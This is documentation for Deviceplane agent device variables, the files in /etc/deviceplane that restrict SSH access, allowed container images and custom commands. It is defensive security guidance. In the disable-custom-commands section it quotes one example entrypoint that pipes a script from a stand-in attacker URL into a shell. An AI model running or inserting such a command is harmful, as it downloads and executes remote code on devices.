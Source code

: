 
<Docs title="Device Variables">

Device variables allow you to customize various aspects of Deviceplane agent behavior. Variables are set through the filesystem meaning that interactions occur by placing files in a specific location (`/etc/deviceplane`). The agent detects these changes (without ever needing a restart) and changes behavior accordingly.

## Variables

Below is a reference list of flags available in the API. All of these flags should be placed in the `/etc/deviceplane` directory as a standalone file. For example, the `authorized-ssh-keys` file would exist as a file at `/etc/deviceplane/authorized-ssh-keys`.

### authorized-ssh-keys

The `authorized-ssh-keys` variable sets the list of allowed keys for SSH access to a device. This file follows the standard `authorized_keys` format for SSH.

Adding this variable fundamentally changes how SSH authorization works. Normally authorization for SSH occurs in the Deviceplane backend as all other API requests are. After adding this variable the agent will begin also authorizing using SSH keys.

Here is a list of implications with this change.

- If a bad actor gets access to a Deviceplane access key then they won't be able to SSH to any devices without also having an authorized SSH key
- If you lose access to your SSH keys you will have no way of accessing your device

### disable-ssh

The `disable-ssh` variable disables SSH access to the device. This should be an empty file; its presence or absence is all that's needed.

This variable is useful for restricting SSH access from the side of the device. For example, imagine a device with a touchscreen in use by a customer who would prefer to have SSH access to their device allowed only when they explicitly opt-in. The variable `disable-ssh` could be present on the device by default, and then the customer could opt-in to have their device accessed via some type of settings page in the running application. This settings page could create or remove `/etc/deviceplane/authorized-keys` to turn on or off SSH access.

### whitelisted-images

> It's recommended to use the `whitelisted-images` variable in conjunction with `disable-custom-commands`.

The `whitelisted-images` variable sets the list of images that can be used on a device. If this file is nonexistent or empty, any image will be allowed.

An image is allowed if its name is prefixed by a line in the file.

For example, the following `whitelisted-images` file will allow:

- The `redis` image, with any tag, or no tag (which defaults to latest)
- And any images from the `myorg` org (e.g. `myorg/deployimage`)

```
redis
myorg/
```

Here is a list of implications with this change.

- If a bad actor gets access to a Deviceplane access key then they won't be able to launch images that aren't in your `whitelisted-images` file.
- If all images that run on your device are under your org name on DockerHub (e.g. `myorg/`), then keeping this list up to date is easy!

### disable-custom-commands

> It's recommended to use the `whitelisted-images` variable in conjunction with `disable-custom-commands`.

The `disable-custom-commands` variable disables custom commands in the application config. Like `disable-ssh`, this should be an empty file; its presence or absence is all that's needed.

When this variable is set, the `command` and `entrypoint` keys are not allowed to be used. The agent will refuse to run services that use the keys and log an error.

Here is a list of implications with this change.

- If a bad actor gets access to a Deviceplane access key then they won't be able to change the `entrypoint`/`command` of a container to execute arbitrary code. For example, `entrypoint: curl http://attackersurl.test | sh`, will be disallowed.

</Docs>
